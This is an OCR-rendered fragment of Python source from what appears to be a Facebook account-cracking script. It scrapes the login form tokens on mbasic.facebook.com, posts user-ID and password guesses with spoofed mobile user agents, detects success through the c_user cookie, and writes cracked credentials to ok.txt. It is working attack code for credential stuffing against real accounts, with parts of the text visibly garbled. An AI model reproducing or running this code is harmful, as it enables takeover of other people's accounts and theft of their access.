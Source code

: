 			except: pass

			try:

				Adiagents = random.choice(liners)

			except (KeyError, IOError):

				Adiagents  = 'Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]'

			ses = requests.Session()

			headers_ = {"Host":"mbasic.facebook.com","upgrade-insecure-requests":"1","user-agent":"NokiaC3-00/5.0 (08.63) Profile/MIDP-2.1 Configuration/CLDC-1.1 Mozilla/5.0 AppleWebKit/420+ (KHTML, like Gecko) Safari/420+","accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","dnt":"1","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://mbasic.facebook.com/","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"}

			p = ses.get('https://mbasic.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F', headers=headers_).text

			dataa = {"lsd":re.search('name="lsd" value="(.*?)"', str(p)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p)).group(1),"uid":user,"flow":"login_no_pin","pass":pw,"next":"https://developers.facebook.com/tools/debug/accesstoken/"}

			_headers = {"Host":"mbasic.facebook.com","cache-control":"max-age=0","upgrade-insecure-requests":"1","origin":"https://mbasic.facebook.com","content-type":"application/x-www-form-urlencoded","user-agent":"Mozilla/5.0 (Linux; Android 12; SAMSUNG SM-G780G) AppleWebKit/537.36 (KHTML, like Gecko) SamsungBrowser/16.0 Chrome/92.0.4515.166 Mobile Safari/537.36","accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://mbasic.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"}

			po = ses.post("https://mbasic.facebook.com/login/device-based/vPHDdate-password/?shbl=0", data = dataa, headers=_headers, allow_redirects = False)

			if 'c_user' in ses.cookies.get_dict():

				print('\r\033[1;37m[\033[1;32mPHD-OK\033[1;37m]\033[1;32m %s | %s      ' % (user,pw))

				wrt = '%s - %s' % (user,pw)

				ok.append(wrt)

				open('ok.txt','a').write('%s\n' % wrt)

				break

			elif 'checkpoint' in ses.cookies.get_dict():

				print('\r\033[1;37m[\033[1;32mPHD-OK\033[1;37m]\033[1;32m %s | %s      ' % (user,pw))
